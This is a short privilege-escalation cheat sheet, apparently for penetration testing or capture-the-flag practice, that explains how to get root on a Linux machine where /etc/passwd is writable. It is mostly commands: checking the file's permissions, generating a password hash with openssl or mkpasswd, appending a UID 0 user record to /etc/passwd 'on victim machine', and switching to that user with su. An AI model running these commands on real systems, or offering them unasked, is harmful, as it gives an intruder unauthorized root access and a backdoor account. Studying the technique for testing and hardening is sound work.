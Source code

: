 If the user has write permissions to /etc/passwd, then the machine is vulnerable.
```bash
ls -lah /etc/passwd
```
For backwards compatibility, if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow.
# Create new user in /etc/passwd
## Generate password for new user
Depening on the hashing algorithm used in /etc/shadow, this command can change:
```bash
openssl passwd $(NEW_PASSWORD)
```
```bash
mkpasswd -m des -S Fd $(NEW_PASSWORD)
```
## Add entry to /etc/passwd
On victim machine:
```bash
echo "$(NEW_USER):$(OPENSSL_OUTPUT):0:0:root:/root:/bin/bash" >> /etc/passwd
```
```bash
su $(NEW_USER)
```
